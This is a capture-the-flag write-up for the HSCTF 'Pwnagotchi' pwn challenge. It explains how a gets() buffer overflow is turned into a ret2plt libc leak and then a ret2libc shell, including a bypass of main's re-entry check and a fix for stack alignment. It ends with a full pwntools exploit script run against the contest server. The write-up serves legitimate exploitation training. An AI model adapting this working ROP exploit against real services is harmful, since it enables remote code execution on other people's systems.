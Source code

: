 # Pwnagotchi

Lets look into this. Let's first of all disassemble main. We'll notice lots of logic going on, and lots of functions - eat, zzz, etc. We also see some variables - once, sleepy, hungry, etc. These have to do with making your pwnagotchi happy. Is this important? No, not at all.

The main thing is that there is a gets call on rbp-0xc. This means that we instantaneously have a buffer overflow vulnerability. 0xc is 12, and 12 + 8 = 20, so we will have 20 bytes until the return address. This is confirmed by pattern.py.

No PIE, NX. My first instinct was ROP, but there wasn't enough gadgets. So I used ret2libc instead.

There's no PIE in the binary, so the GOT and the PLT stay constant. This allows us to execute a simple ret2plt attack, calling puts@plt on puts@GOT, and leaking the puts libc address. This libc address can be used to find the libc version of the remote instance, which is libc6\_2.27-3ubuntu1\_amd64. From there, we can call main again, and execute a simple ret2libc attack.

There's two things stopping us here, which I'll review.

First of all: main has some weird logic at the beginning. What actually happens is not important, what you need to know is that it can detect whether you've done weird stuff and called it again. When it detects this, it says "um, this is awkward" and quits. How do we bypass this? Simple. We jump to the specific instruction in main which starts our input, and continue from there.

Second thing: quite subtle. When we execute this attack remotely, everything goes smoothly. However, once we hit the final payload, things stop working. we get an EOF.

It's important to review what's happening. When our remote exploit does not work, the "pwnagotchi name is not happy!" message does NOT show up. What does this mean? It means we likely a hit a problem with the stack. You guessed it, stack alignment.

We can add a simple ret gadget in the middle of our payloads\(0x400285\) and our exploit succeeds! Script below

My fakestack pointer was a pointer to a random page mapped read-write in memory, so that the program could resume and make local variables like normal.

```python
from pwn import *
NUM_TO_RET = 20
padding = b'A' * NUM_TO_RET
fakestack = 0x601000 + 0x700
e = ELF("./gotchi")
poprdi = 0x00000000004009f3 # pop rdi ; ret
poprsi = 0x00000000004009f1 # pop rsi ; pop r15 ; ret
#p = e.process()
p = remote('pwn.hsctf.com', 5005)
leak = flat(poprdi, e.got['puts'], e.plt['puts'],0x0000000000400285, 0x000000000040090b, word_size=64)
p.sendline(padding[:-8] + p64(fakestack) + leak)
p.recvuntil(b"!\n")
output = p.recv()[:-1] + b'\x00\x00'
puts = u64(output)
log.info(f"Puts address: {hex(puts)}")
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
libcbase = puts - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
#final = flat(poprdi, next(libc.search(b"/bin/sh\x00")), poprsi, 0, 0, 0x0000000000001b96, 0, libc.symbols['execve'], word_size=64)
final = flat(poprdi,next(libc.search(b"/bin/sh\x00")),0x0000000000400285, libc.symbols['system'], word_size=64)
p.sendline(padding[:-8] + p64(fakestack) + final)
p.interactive()
```

